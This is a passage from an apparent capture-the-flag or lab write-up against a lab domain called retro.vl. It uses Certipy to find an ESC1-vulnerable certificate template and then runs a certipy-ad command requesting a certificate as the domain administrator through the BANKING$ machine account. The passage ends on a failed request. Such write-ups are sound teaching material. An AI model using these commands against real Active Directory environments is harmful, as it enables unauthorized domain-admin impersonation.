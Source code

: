 ```powershell
[*] Found 15 issuance policies                                                                                                                                          
[*] Found 0 OIDs linked to templates                                                                                                                                    
[*] Retrieving CA configuration for 'retro-DC-CA' via RRP                                                                                                               
[!] Failed to connect to remote registry. Service should be starting now. Trying again...                                                                               
[*] Successfully retrieved CA configuration for 'retro-DC-CA'                                                                                                           
[*] Checking web enrollment for CA 'retro-DC-CA' @ 'DC.retro.vl'                                                                                                        
[!] Error checking web enrollment: timed out                                                                                                                            
[!] Use -debug to print a stacktrace                                                                                                                                    
[!] Error checking web enrollment: timed out                                                                                                                            
[!] Use -debug to print a stacktrace
[*] Saving text output to '20250902121027_Certipy.txt'
[*] Wrote text output to '20250902121027_Certipy.txt'
[*] Saving JSON output to '20250902121027_Certipy.json'
[*] Wrote JSON output to '20250902121027_Certipy.json'
```

Reading the file `20250902121027_Certipy.txt`, we find a template that is vulnerable to `ESC1`.

`CA Name                             : retro-DC-CA` (This is the Certificate Authority Name)

`Template Name                       : RetroClients` (This is the Template Name)

`Certificate Name Flag               : EnrolleeSuppliesSubject` (This means that I can choose what user to request the certificate for! - **INTERESTING**)

`Extended Key Usage                  : Client Authentication` (This means that I can use the certificate to authenticate, without this the certificate is useless)

---

```powershell
Enrollment Rights               : RETRO.VL\Domain Admins                                                                                                        
                                  RETRO.VL\Domain Computers                                                                                                     
                                  RETRO.VL\Enterprise Admins
```

This means that only users from these groups can enroll in the certificate, our user, `BANKING$`, is part of the `Domain Computers` group !

## Exploiting ESC1 using Certipy-AD

```powershell
└─$ certipy-ad req -ca retro-DC-CA -u 'BANKING$' -template RetroClients -upn administrator@retro.vl -target $(cat ip)
Certipy v5.0.2 - by Oliver Lyak (ly4k)

Password:
[*] Requesting certificate via RPC
[*] Request ID is 10
[-] Got error while requesting certificate: code: 0x80094811 - CERTSRV_E_KEY_LENGTH - The public key does not meet the minimum size required by the specified certificate template.
Would you like to save the private key? (y/N): y
[*] Saving private key to '10.key'
[*] Wrote private key to '10.key'
[-] Failed to request certificate
```
